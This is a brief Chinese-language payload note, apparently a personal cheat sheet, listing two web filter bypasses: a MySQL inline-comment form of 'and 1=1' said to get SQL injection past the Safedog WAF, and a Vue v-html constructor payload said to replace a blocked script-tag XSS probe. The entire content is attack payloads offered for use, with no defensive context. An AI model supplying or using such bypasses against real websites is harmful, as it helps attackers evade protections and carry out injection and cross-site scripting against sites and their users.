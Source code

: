 1、sql注入绕过安全狗waf：
```
and 1=1
```
变为
```
and /*!1=1*/
```

2、twitter上最新xss payload：
```
<script>alert("ybdt")</script>
```
变为
```
<x v-html=_c.constructor('alert(1)')()>
```
